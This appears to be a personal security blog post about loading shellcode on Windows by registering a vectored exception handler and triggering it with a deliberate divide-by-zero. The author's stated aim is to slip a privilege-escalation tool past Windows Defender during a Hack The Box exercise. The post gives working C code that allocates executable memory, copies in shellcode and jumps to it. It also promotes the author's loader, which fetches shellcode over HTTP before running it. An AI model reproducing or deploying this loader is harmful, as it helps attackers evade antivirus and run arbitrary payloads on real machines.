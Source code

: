 ```yaml
---
title: 1/0 = reverse shell ??
description: Deep dive into a unique shellcode loading technique
date: 2025-01-10 12:00:00 +0000
categories: [Windows,Programming]
tags: [Windows,Shellcode]
image: assets/img/visual_studio.png
---
```


In this blog post I'll explain how to load your shellcode using a really neat technique abusing VectorExceptions, a windows way of catching exceptions.

## Context
For the past few weeks I've been trying to finish my first htb fortress.
After gaining access to a windows machine, which had SeImpersonate so it was a quick win, I tried to use godpotato.exe to escalate.
And then everything to shambles. I spent a lot of time trying to get godpotato on the box and it kept getting deleted by windows defender.
Commonly used techniques to bypass AV include converting your exe to raw assembly (the shellcode) and running it through another binary (the loader).
Since I don't have the skills to create a shellcode from a binary, I used [donut](https://github.com/TheWover/donut) which works great for now !
Now I only had to create my shellcode loader :)

## VirtualAlloc ?
I decided that I wanted to create my own shellcode loader, which I did using visual studio 2022. I first used VirtualAlloc like absolutely every shellcode loader does on this planet. It's really straightforward, all you do is create executable memory, put your shellcode inside, and jump to it. I wanted to get more creative so I searched for more unique ways and I found a really funny one, vector excpetions. What I mean by funny is that the code that triggers the shellcode is the following :

```C
	int a = 1;
	int b = 0;
	int result = a / b;
```

Yes, it's the actual code in my shellcode loader ^^.
I know I know it sounds confusing at first, but don't worry it will all come together.
When your program reaches this, it will raise an exception and will iterate through a list of "vectored exception handlers", which is a fancy word for functions that will be called, one after the other before one of them can solve the exception. All we need to do is create an ExceptionHandler and register it so it will be called when an error occurs. I could go on and explain step by step but this snippet will explain it better than I :

```C
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo) {
	// Check if it's a divide by zero exception
	if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_INT_DIVIDE_BY_ZERO) {
		printf("[+] Exception caught, running shellcode ...\n");
		// Just in case
		if (g_shellcode == NULL || g_shellcodeSize == 0) {
			printf("[X] Shellcode error :(\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		// VirtualAlloc shellcode as usual
		void* execMem = VirtualAlloc(NULL, g_shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (execMem == NULL) {
			printf("[X] VirtualAlloc error (huh ?)\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		memcpy(execMem, g_shellcode, g_shellcodeSize);
		((void(*)())execMem)();  // Telephone meeeee

		VirtualFree(execMem, 0, MEM_RELEASE);

		return EXCEPTION_EXECUTE_HANDLER;  // Not make an infinite loop
	}
	// Not my fault
	return EXCEPTION_CONTINUE_SEARCH;
}
```

As you can see, this will trigger only if an int divide by zero exception is raised.
I could've done this with other types of exceptions but triggering a shellcode when dividing by zero was just better ^^.

If you paid attention you realise that we need to register our ExceptionHandler, which is done like this :

```C
	if (AddVectoredExceptionHandler(1, ExceptionHandler) == NULL) {
		printf("[X] Couldn't add an Exception Handler sadly\n");
		return;
	}
```

Reading the [docs](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler), we see that the first argument just needs to be non zero so that our ExceptionHandler will be called first.

## Done :)
Then you can just run the code and it will trigger you shellcode ! 
This technique is still recent, and I need to give credit to [this blog post](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/) for explaining the inner workings of windows Exceptions.

It gave me motivation to code my own shellcode loader, which you can checkout [here](https://github.com/0xtensho/ExtremeShellcode). 
It's useful for ctf's as it gets the shellcode through http before executing it, allowing you to upload only the loader. 
There are tons of other ways to run a shellcode, but of course the best way is the way that is still unknown by windows defender.
